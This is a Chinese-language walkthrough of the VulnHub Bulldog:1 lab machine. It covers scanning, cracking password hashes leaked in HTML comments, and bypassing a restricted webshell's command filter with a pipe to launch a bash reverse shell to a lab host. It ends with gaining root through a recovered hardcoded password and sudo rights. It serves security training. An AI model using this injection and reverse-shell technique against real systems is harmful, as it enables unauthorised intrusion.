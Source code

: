 # BULLDOG: 1

2025.02.12 https://www.vulnhub.com/entry/bulldog-1,211/

[video]()

## Ip

192.168.5.40

## Scan

```
PORT     STATE SERVICE
23/tcp   open  telnet
80/tcp   open  http
8080/tcp open  http-proxy
```

访问 80 和 8080 两个端口显示的网站一致，gobuster 发现 http://192.168.5.40:8080/notice/ 中可以看到一个可能存在的用户名: Winston Churchy (CEO) ，另外发现 2 个链接: http://192.168.5.40:8080/admin 和 http://192.168.5.40:8080/dev， /admin 是一个系统登陆窗口使用 Django 开发，/dev 页面上显示了一些提示， 同时发现了一个 webshell 的页面 http://192.168.5.40/dev/shell

查看 /dev 的页面源码，在底部发现了一些重要信息：

```
<!--Need these password hashes for testing. Django's default is too complex-->
<!--We'll remove these in prod. It's not like a hacker can do anything with a hash-->
Team Lead: alan@bulldogindustries.com<br><!--6515229daf8dbdc8b89fed2e60f107433da5f2cb-->
Back-up Team Lead: william@bulldogindustries.com<br><br><!--38882f3b81f8f2bc47d9f3119155b05f954892fb-->
Front End: malik@bulldogindustries.com<br><!--c6f7e34d5d08ba4a40dd5627508ccb55b425e279-->
Front End: kevin@bulldogindustries.com<br><br><!--0e6ae9fe8af1cd4192865ac97ebf6bda414218a9-->
Back End: ashley@bulldogindustries.com<br><!--553d917a396414ab99785694afd51df3a8a8a3e0-->
Back End: nick@bulldogindustries.com<br><br><!--ddf45997a7e18a25ad5f5cf222da64814dd060d5-->
Database: sarah@bulldogindustries.com<br><!--d8b8dd5e7f000b8dea26ef8428caf38c04466b3e-->
```

使用 https://crackstation.net/ 在线对哈希进行解密，得到了 2 个明文密码：

```
bulldog
bulldoglover
```

得到了登陆凭据: nick:bulldog 和 sarah:bulldoglover 用这 2 个凭据登陆 /admin 后，发现页面上没有权限。这时在访问 http://192.168.5.40/dev/shell/ 发现可以进入到 webshell 中了。

webshell 中显示可以执行下面的命令：

```
ifconfig
ls
echo
pwd
cat
rm
```

但是可以绕过：ls|id 这时也会执行其他命令，所以直接反弹 shell，kali 上建立监听:

```
ls|/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1'
```

得到了反弹的链接：

```
django@bulldog:/home/django/bulldog$ id
id
uid=1001(django) gid=1001(django) groups=1001(django),27(sudo)
```

发现 2 个普通用户：

```
bulldogadmin:x:1000:1000:bulldogadmin,,,:/home/bulldogadmin:/bin/bash
django:x:1001:1001:,,,:/home/django:/bin/bash
```

在 /home/bulldogadmin/.hiddenadmindirectory 中发现了 2 个文件，note.txt ：

```
django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$ cat note
Nick,

I'm working on the backend permission stuff. Listen, it's super prototype but I think it's going to work out great. Literally run the app, give your account password, and it will determine if you should have access to that file or not!

It's great stuff! Once I'm finished with it, a hacker wouldn't even be able to reverse it! Keep in mind that it's still a prototype right now. I am about to get it working with the Django user account. I'm not sure how I'll implement it for the others. Maybe the webserver is the only one who needs to have root access sometimes?

Let me know what you think of it!

-Ashley
```

另外一个 customPermissionApp 是一个可执行程序，但是没有执行权限，但是有读权限，使用当前用户 cp 一份该程序。根据上面的提示，逆向该程序，找到了一串字符串: SUPERultimatePASSWORDyouCANTget ，并且程序中执行了 system("sudo su root"); 。执行这个程序，输入这个字符串，得到了 root 权限：

```
./customPermissionApp

root@bulldog:~# cat congrats.txt
Congratulations on completing this VM :D That wasn't so bad was it?

Let me know what you thought on twitter, I'm @frichette_n

As far as I know there are two ways to get root. Can you find the other one?

Perhaps the sequel will be more challenging. Until next time, I hope you enjoyed!
```

最后发现 django 用户 sudo -l 权限为 ALL。
